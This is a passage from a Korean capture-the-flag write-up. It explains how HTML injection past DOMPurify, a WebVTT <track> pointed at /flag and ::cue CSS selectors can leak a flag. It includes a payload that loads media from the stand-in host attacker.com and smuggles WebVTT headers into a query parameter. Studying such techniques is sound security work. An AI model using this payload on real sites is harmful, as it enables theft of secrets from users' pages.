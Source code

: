 ```html
    </nav>
    <div class="container">
        <article>
          loading...
        </article>
    </div>
</body>
</html>
```

#### /static/init.js
```js
window.addEventListener('load', function() {
    var params = new URLSearchParams(window.location.search);
    var danger_content = params.get('content') || "!dlrow olleH";
    var content = DOMPurify.sanitize(danger_content);
    document.querySelector('article').innerHTML = content;
});
```

init.js를 보면 메인 페이지에서 DOMPurify에 의해 XSS가 막혔지만 HTML injection이 가능합니다.

그럼 이제 어떻게 FLAG를 유출할 수 있을까요?

여기서 필요한 배경지식은 WebVTT, `<track>` 태그, `::cue`라는 CSS 의사요소입니다.

**배경지식**
>WebVTT는 비디오나 오디오와 함께 표시되는 텍스트 트랙을 정의하는 파일 형식입니다. 주로 자막, 캡션, 챕터 등을 표현하는 데 사용됩니다.

>`::cue`는 WebVTT 큐의 텍스트 콘텐츠를 스타일링하는 데 사용되는 CSS 의사 요소입니다. 이를 통해 자막이나 캡션의 스타일을 세밀하게 제어할 수 있습니다.

>`<track>` 태그는 HTML5 `<video>` 또는 `<audio>` 요소의 자식으로 사용되며, 외부 텍스트 트랙 파일(예: WebVTT 파일)을 지정합니다. 이를 통해 비디오나 오디오에 자막, 캡션 등을 추가할 수 있습니다.

해당 배경지식들은 웹에서 비디오나 오디오의 자막에 쓰이는 개념들입니다.


푸는 방법을 간단히 요약하자면 외부에서 `<video>`를 가져온 뒤 <track> 태그로 '/flag'경로를 webVTT texttrack으로 처리하고 `::cue`로 CSS 선택자로 조건이 맞는 FLAG를 공격자 사이트로 유출하는 기법입니다. 

먼저 '/flag'경로는 임의 문자열을 FLAG앞에 위치할 수 있습니다. 그리고 개행 또한 가능합니다.

그럼 공격 방법을 단계별로 설명하겠습니다:

1. 외부 비디오 소스를 참조하는 `<video>` 태그를 삽입합니다.
2. `<video>`태그 내부에 `<track>` 태그를 추가합니다.
3. `<track>` 태그의 src 속성을 '/flag' 경로로 설정하고, 추가 파라미터를 포함시킵니다.
4. 이 파라미터에 WebVTT 형식의 헤더와 타임스탬프를 포함시켜 '/flag' 경로의 응답을 WebVTT 파일로 해석되도록 합니다.

이를 구현한 페이로드는 다음과 같습니다:

```html
<video muted autoplay controls src="//attacker.com/a.mp3">
  <track default src="/flag?name=WEBVTT%0d00:00.000-->00:30.000%0d<v"/>
  <style>CSS injection payload...</style>
</video>
```
